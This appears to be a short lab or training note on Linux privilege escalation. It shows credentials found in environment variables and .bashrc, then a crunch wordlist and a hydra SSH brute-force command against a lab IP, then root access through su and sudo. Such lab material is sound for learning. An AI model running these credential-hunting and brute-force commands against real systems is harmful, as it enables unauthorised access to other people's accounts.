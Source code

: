 # Searching For Sensitive Information



## env

```
$ env
...
XDG_SESSION_CLASS=user
TERM=xterm-256color
SCRIPT_CREDENTIALS=lab
USER=joe
LC_TERMINAL_VERSION=3.4.16
SHLVL=1
XDG_SESSION_ID=35
LC_CTYPE=UTF-8
XDG_RUNTIME_DIR=/run/user/1000
SSH_CLIENT=192.168.118.2 59808 22
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus
MAIL=/var/mail/joe
SSH_TTY=/dev/pts/1
OLDPWD=/home/joe/.cache
_=/usr/bin/env
```



## UNIX dot files

```
$ cat .bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
export SCRIPT_CREDENTIALS="lab"
HISTCONTROL=ignoreboth
...
```



## Brute Force

Once we access a low level user we can try to brute force other users while we continue to do enumerate the machine.

Create wordlist:

```
$ crunch 6 6 -t Lab%%% > wordlist
```

```
$ hydra -l eve -P wordlist 192.168.50.214 -t 4 ssh -V
```

## Low Hanging Fruit

```
$ su - root
Password:

# whoami
root
```

```
$ sudo -i
[sudo] password for eve:

# whoami
root
```

\

